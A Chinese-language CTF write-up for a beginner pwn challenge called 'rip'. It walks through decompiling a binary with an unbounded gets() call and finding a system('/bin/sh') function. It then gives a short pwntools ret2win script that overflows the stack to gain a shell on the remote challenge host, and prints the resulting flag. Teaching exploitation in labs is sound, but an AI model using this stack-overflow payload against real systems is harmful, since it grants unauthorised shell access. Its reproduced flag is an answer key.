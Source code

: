 ```yaml
---
title: rip
date: 2023-10-24
categories:
  - CTF
  - Pwn
---
```


## 前置工作

下载附件，用 IDA 64 进行逆向，找到 `main()` 函数的反汇编伪代码

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[15]; // [rsp+1h] [rbp-Fh] BYREF

  puts("please input");
  gets(s, argv);
  puts(s);
  puts("ok,bye!!!");
  return 0;
}
```

发现高危函数 `gets()`，没有任何的限制，全部存储进 `s[15]` 中，可造成栈溢出

接下来按下 Shift + F12 寻找 `/bin/sh` 字符串，再按下 Ctrl + X 进入引用的函数，得到以下内容

```
; Attributes: bp-based frame

public fun
fun proc near
; __unwind {
push    rbp
mov     rbp, rsp
lea     rdi, command    ; "/bin/sh"
call    _system
nop
pop     rbp
retn
; } // starts at 401186
fun endp
```

找到函数开始的地址 `0x401186`，命为 `fun_addr`

## 编写 Exp

先用 0xF（数组的大小）+ 8（dup 的大小）个垃圾数据填饱栈，然后将函数 `fun()` 的地址打包发送过去（`pack(x, 64)` 与 `p64()` 作用相同），这种情况在本地是可以运行的，但是远程连接就会失效，就需要给 `fun_addr` +1 来取得堆栈平衡

```python
from pwn import *

r = remote("node4.buuoj.cn", 29901)
fun_addr = 0x401186
payload = b"A"*(0xF + 8) + pack(fun_addr + 1, 64)
r.sendline(payload)
r.interactive()
```

## 攻入靶机

运行攻击代码后，输入 `cat flag`，最终取得的结果为 `flag{dd7de097-3853-4e0e-bc09-d46e2541c68c}`